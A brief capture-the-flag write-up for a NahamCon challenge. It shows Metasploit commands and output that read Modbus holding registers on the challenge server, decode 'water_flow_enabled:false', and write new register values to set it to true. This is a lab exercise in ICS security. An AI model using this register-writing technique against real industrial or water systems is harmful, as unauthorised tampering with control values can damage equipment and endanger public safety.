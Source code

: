 # Short Writeup
we're given two links, one for getting the flag, the other just doesn't work. The description gives us the hint "busmod", which is just them messing with us to say the other link is actually the ip and port for modbus, a protocol used in SCADA/ICS systems.

You can do this with pymodbus, but doing it with Metasploit wasn't that bad. In Metasploit
```shell
msf6 auxiliary(scanner/scada/modbusdetect) > use auxiliary/scanner/scada/modbusclient
msf6 auxiliary(scanner/scada/modbusclient) > set RHOSTS challenge.nahamcon.com
RHOSTS => challenge.nahamcon.com
msf6 auxiliary(scanner/scada/modbusclient) > set RPORT 31981
RPORT => 31981
msf6 auxiliary(scanner/scada/modbusclient) > set NUMBER 40
NUMBER => 40
msf6 auxiliary(scanner/scada/modbusclient) > set DATA_ADDRESS 0
DATA_ADDRESS => 0
msf6 auxiliary(scanner/scada/modbusclient) > run
[*] Running module against 34.29.202.81

[*] 34.29.202.81:31981 - Sending READ HOLDING REGISTERS...
[+] 34.29.202.81:31981 - 40 register values from address 0 :
[+] 34.29.202.81:31981 - [119, 97, 116, 101, 114, 95, 102, 108, 111, 119, 95, 101, 110, 97, 98, 108, 101, 100, 58, 102, 97, 108, 115, 101, 17, 17, 17, 17, 17, 17, 17, 17, 17, 17, 17, 17, 17, 17, 17, 17]
```

The data that comes out is just ASCII encoded `water_flow_enabled:false`, so we can try and write to those registers and change false to true..

```shell
msf6 auxiliary(scanner/scada/modbusclient) > set action WRITE_REGISTERS
action => WRITE_REGISTERS
msf6 auxiliary(scanner/scada/modbusclient) > set DATA_REGISTERS 119,97,116,101,114,95,102,108,111,119,95,101,110,97,98,108,101,100,58,116,114,117,101,17
msf6 auxiliary(scanner/scada/modbusclient) > run
[*] Running module against 34.29.202.81

[*] 34.29.202.81:31981 - Sending WRITE REGISTERS...
[+] 34.29.202.81:31981 - Values 119,97,116,101,114,95,102,108,111,119,95,101,110,97,98,108,101,100,58,116,114,117,101,17 successfully written from registry address 0
```
check website, get flag :)